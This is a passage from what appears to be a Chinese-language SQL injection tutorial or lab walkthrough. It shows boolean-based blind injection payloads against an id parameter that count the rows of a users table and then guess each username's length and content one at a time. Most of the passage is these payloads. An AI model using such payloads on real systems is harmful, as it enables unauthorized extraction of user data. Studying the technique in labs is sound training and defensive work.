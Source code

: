 ```bash
?id=1' and (select count(*) from users)=13 --+
```

[![](assets/1707953831-9d6161b96bc82ec4607b1f56790ecee0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204192217-a7c6fc28-c34f-1.png)  
之后再来判断每条数据的长度

```bash
第一个数据长度为 4
?id=1' and length((select username from users limit 0,1))=4  --+

第二个数据长度为 8
?id=1' and length((select username from users limit 1,1))=8  --+

第三个数据长度为 5
?id=1' and length((select username from users limit 2,1))=5  --+

...

第十三个数据长度为 6
?id=1' and length((select username from users limit 12,1))=6  --+
```

再用同样的方法猜解数据的内容，这里以第一个数据为例，数据内容为 dumb  